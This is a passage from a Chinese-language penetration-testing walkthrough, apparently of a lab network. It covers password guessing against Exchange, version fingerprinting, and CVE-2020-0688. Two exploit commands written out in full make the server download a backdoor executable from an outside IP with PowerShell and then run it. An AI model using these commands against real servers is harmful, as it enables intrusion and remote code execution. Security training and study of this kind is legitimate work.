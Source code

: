 导入常用账号和密码提交即可

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOiaKZjpeM5CLibVwCnzJVFykibbUTtJJbpibPoxnFsZZ3NPbKQw7O7P5xog/640?wx_fmt=png)

登录成功。

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOE5BeAYOWQk7eBOpuSUFYvhy9BDvictEjy52G0DBo5Ies5nnB1S5TksQ/640?wx_fmt=png)

**5.13  Exchange 信息收集**

owa/auth/15.0.1076/

exchange2013 CU8

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOmXrxsHial3f9BXYasibtfLE7bNsxXUFwShXA2Wx0FWa7Q8Zl5tB5lEDQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOc55v7Qr1naNGvmPfLrqmn71rtUVpMiaz6DzqY6dMiaaicXA1CpHNj5dpA/640?wx_fmt=png)

**5.14 利用 CVE-2020-0688 远程代码执行漏洞**

存在漏洞的版本只需要普通的用户即可。

MicrosoftExchange Server 2010 Service Pack 3

MicrosoftExchange Server 2013

MicrosoftExchange Server 2016

MicrosoftExchange Server 2019

使用 SocksCap64 隧道执行命令 把 python 加入隧道

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOiabz9jtJ4KgsqiceZdTLP0yPeTbPAOAicvSAFDLib2bSeq9O5siahEqFtHA/640?wx_fmt=png)

执行命令将后门下载到 c 盘的下

```
CVE-2020-0688_EXP.py -s https://mail.moonteam.com-u moonteam\moonsec -p QWEasd456 -c "powershell (new-objectSystem.Net.WebClient).DownloadFile('http://61.100.100.129/2.exe','c:/233.exe')"
```

执行后门

```
CVE-2020-0688_EXP.py -s https://mail.moonteam.com -u moonteam\moonsec -p QWEasd456 -c "cmd/c c:/233.exe"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPONqfkHfJNic7quibryw3iaArFN8q06Vr3GxsCMjbFpMP7dnOg5V0RGlrpw/640?wx_fmt=png)

当前的渗透图

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6AA6FjZBZlyRaiapLe60icUkPOEiaoe8lCvpbXKmtraQJY1kFyHGZ6Sm65l6wtkw437LicGgdicZcGEG6rw/640?wx_fmt=png)

**5.15 第三层内网渗透**

**5.16 针对 exchang 服务器信息收集**

当前权限是 system
